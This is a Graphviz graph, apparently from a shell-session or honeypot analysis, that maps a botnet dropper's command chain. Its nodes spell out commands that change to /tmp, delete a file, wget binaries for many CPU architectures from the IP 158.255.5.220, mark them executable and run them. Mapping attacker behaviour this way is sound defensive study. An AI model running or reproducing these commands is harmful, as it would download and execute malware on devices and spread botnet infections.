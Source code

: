 digraph {
60 [label="cd /tmp "];
60 -> 2 [label="SC,(,"];
2 [label="rm -rf qoH8SotBDj "];
2 -> 60 [label=";,"];
60 [label="cd /tmp "];
60 -> 6 [label="),;,SC,(,"];
6 [label="wget http://158.255.5.220/mips -O qoH8SotBDj "];
6 -> 64 [label=";,"];
64 [label="chmod +x qoH8SotBDj "];
64 -> 65 [label=";,"];
65 [label="./qoH8SotBDj "];
65 -> 60 [label=";,"];
60 [label="cd /tmp "];
60 -> 14 [label="),||,SC,(,"];
14 [label="wget http://158.255.5.220/armv4l -O qoH8SotBDj "];
14 -> 64 [label=";,"];
64 [label="chmod +x qoH8SotBDj "];
64 -> 65 [label=";,"];
65 [label="./qoH8SotBDj "];
65 -> 60 [label=";,"];
60 [label="cd /tmp "];
60 -> 22 [label="),||,SC,(,"];
22 [label="wget http://158.255.5.220/mipsel -O qoH8SotBDj "];
22 -> 64 [label=";,"];
64 [label="chmod +x qoH8SotBDj "];
64 -> 65 [label=";,"];
65 [label="./qoH8SotBDj "];
65 -> 60 [label=";,"];
60 [label="cd /tmp "];
60 -> 30 [label="),||,SC,(,"];
30 [label="wget http://158.255.5.220/armv7l -O qoH8SotBDj "];
30 -> 64 [label=";,"];
64 [label="chmod +x qoH8SotBDj "];
64 -> 65 [label=";,"];
65 [label="./qoH8SotBDj "];
65 -> 60 [label=";,"];
60 [label="cd /tmp "];
60 -> 38 [label="),||,SC,(,"];
38 [label="wget http://158.255.5.220/armv5l -O qoH8SotBDj "];
38 -> 64 [label=";,"];
64 [label="chmod +x qoH8SotBDj "];
64 -> 65 [label=";,"];
65 [label="./qoH8SotBDj "];
65 -> 60 [label=";,"];
60 [label="cd /tmp "];
60 -> 46 [label="),||,SC,(,"];
46 [label="wget http://158.255.5.220/armv6l -O qoH8SotBDj "];
46 -> 64 [label=";,"];
64 [label="chmod +x qoH8SotBDj "];
64 -> 65 [label=";,"];
65 [label="./qoH8SotBDj "];
65 -> 60 [label=";,"];
60 [label="cd /tmp "];
60 -> 54 [label="),||,SC,(,"];
54 [label="wget http://158.255.5.220/sh4 -O qoH8SotBDj "];
54 -> 64 [label=";,"];
64 [label="chmod +x qoH8SotBDj "];
64 -> 65 [label=";,"];
65 [label="./qoH8SotBDj "];
65 -> 60 [label=";,"];
60 [label="cd /tmp "];
60 -> 62 [label="),||,SC,(,"];
62 [label="wget http://158.255.5.220/x64 -O qoH8SotBDj "];
62 -> 64 [label=";,"];
64 [label="chmod +x qoH8SotBDj "];
64 -> 65 [label=";,"];
}
